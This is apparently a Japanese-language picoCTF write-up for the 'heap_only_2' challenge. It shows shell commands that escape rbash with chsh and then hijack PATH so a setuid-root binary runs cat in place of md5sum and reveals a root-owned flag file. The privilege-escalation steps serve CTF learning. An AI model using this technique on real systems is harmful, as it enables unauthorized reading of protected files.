 # heap_only_2:bynary Medium  
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!  

Additional details will be available after launching your challenge instance.  

# Solution  
ssh接続する  
###とりあえず、権限や動作の結果を確認  
ctf-player@pico-chall$ ls -l  
total 0  
ctf-player@pico-chall$ echo $PATH  
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
ctf-player@pico-chall$ type flaghasher  
flaghasher is /usr/local/bin/flaghasher  
ctf-player@pico-chall$ flaghasher  
Computing the MD5 hash of /root/flag.txt....   
4268c8737000b13184189a06b5054d72  /root/flag.txt  

###md5sumの改ざんを試みるが失敗  
ctf-player@pico-chall$ ls -l /usr/local/bin/flaghasher  
-rwsr-xr-x 1 root root 18312 Mar  6 19:42 /usr/local/bin/flaghasher  
ctf-player@pico-chall$ ln -s /usr/bin/cat md5sum  
ctf-player@pico-chall$ export PATH=".:$PATH"  
-rbash: PATH: readonly variable  

###shellのrbashをbashに変更  
ctf-player@pico-chall$ chsh -s /usr/bin/bash ctf-player  
Password:   
ctf-player@pico-chall$ echo $SHELL  
/bin/rbash  
ctf-player@pico-chall$ logout  

###shellの変更ができたので改ざんし、フラグを獲得  
ctf-player@pico-chall$ echo $SHELL  
/usr/bin/bash  
ctf-player@pico-chall$ ln -s /usr/bin/cat md5sum  
ctf-player@pico-chall$ export PATH=".:$PATH"  
ctf-player@pico-chall$ flaghasher  
Computing the MD5 hash of /root/flag.txt....   

picoCTF{...}  

# 基礎知識  
bash:LinuxやmacOSなどのUnix系OSで使われる代表的なシェル  
rbash:bashに制限を加えた制限付きシェル　主にユーザーの操作範囲を制限する  
コマンド  
chsh:  ログインシェル（デフォルトのシェル）を変更する
例：chsh　−S　[新しいシェルのパス] [ユーザー名]   
logout:  ログインシェルを終了する  

# 考えたこと    
権限と動作結果を調査  
heap_only_1と同様書き込み権限があったので、md5sumの改ざんを行う  
改ざんは成功したが、PATHが変更できなかった  
なので、rbashをbashへの改ざんを狙う  
成功した後、ログアウトして再ログインするとシェルが変わってたのでheap_only_1と同様の手順で改ざんする  
flaghasherを実行するとフラグが獲得できた  
